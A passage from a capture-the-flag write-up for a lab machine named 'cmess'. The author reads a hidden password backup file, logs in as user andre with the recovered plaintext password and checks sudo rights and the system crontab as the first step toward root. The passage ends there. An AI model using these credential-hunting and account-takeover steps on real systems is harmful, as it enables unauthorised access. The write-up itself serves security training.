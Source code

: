 And here we can see an odd file `/opt/.password.bak` which has the following content:

```bash
www-data@cmess:/opt$ cat /opt/.password.bak
cat /opt/.password.bak
andres backup password
*************
```

Now that we have got the password to andre's account, we can log into his account and get the user flag.

```bash
www-data@cmess:/opt$ su andre
su andre
Password: UQfsdCB7aAP6

andre@cmess:/opt$ cd /home/andre
cd /home/andre
andre@cmess:~$ cat user.txt
```

Now, our next task is to escalate our privileges to `root`.

### Vertical

For this, we can first check the command that "andre" can run as `sudo`.

```bash
andre@cmess:~$ sudo -l
sudo -l
[sudo] password for andre: 

Sorry, user andre may not run sudo on cmess.

```

But looks like we can't run any commands as `sudo`. So, the next thing we can check are the cron jobs:

```bash
andre@cmess:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```
